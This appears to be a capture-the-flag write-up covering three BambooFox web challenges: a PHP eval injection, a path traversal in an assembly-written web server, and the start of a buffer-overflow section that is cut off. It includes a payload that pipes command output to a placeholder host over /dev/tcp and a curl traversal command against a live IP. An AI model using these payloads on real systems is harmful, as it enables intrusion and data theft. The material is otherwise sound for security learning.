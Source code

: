 ## Web

### Warmup

Code:
```php
<?php

    highlight_file(__FILE__);

    if ($x = @$_GET['x'])
        eval(substr($x, 0, 5));
```

Use PHP [execution operator](https://www.php.net/manual/en/language.operators.execution.php) to execute arbitrary command
```
?x=`$x`;sleep 1
?x=`$x`;bash -c 'ls > /dev/tcp/your-server.com/12345'
```

And you will recieve:
```
BAMBOOFOX{d22a508c497c1ba84fb3e8aab238a74e}
index.php
```

### HAPPY

1. There was a `/.git` directory exposed publicly, and you can get `/.git/HEAD`. If you use directory scanner, you would probably find `/Makefile` as well.
2. Source code is also under the document root, which can be viewed directly (`Makefile`, `log.asm`, `server.asm`, `http.asm`, `utils.asm`, `socket.asm`). It's a web server written in x86_64 assembly language.
3. In `http.asm`, to retrieve a file, it just prepend `"."` to the path provided in the HTTP request. For example:
    With		
    ```
    GET /index.html HTTP/1.1
    ...
    ```
    it will read `./index.html` and send to you. 
4. So you just request with a file path like `/../../../../../../../../home/web/flags/flag1.txt` and it will send you the flag:
    ```bash
    $ curl --path-as-is http://59.124.168.42:8001/../../../../../../../../home/web/flags/flag1.txt
    BAMBOOFOX{251d19bd7cb60e72a3825d898bffcee5}
    ```
### NEW

1. `server.out` is a friendly binary assembled with `nasm`:
    ```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
    ```
2. There was a buffer overflow while reading the request path in `http.asm`:
    ```assembly
    read_req_path:
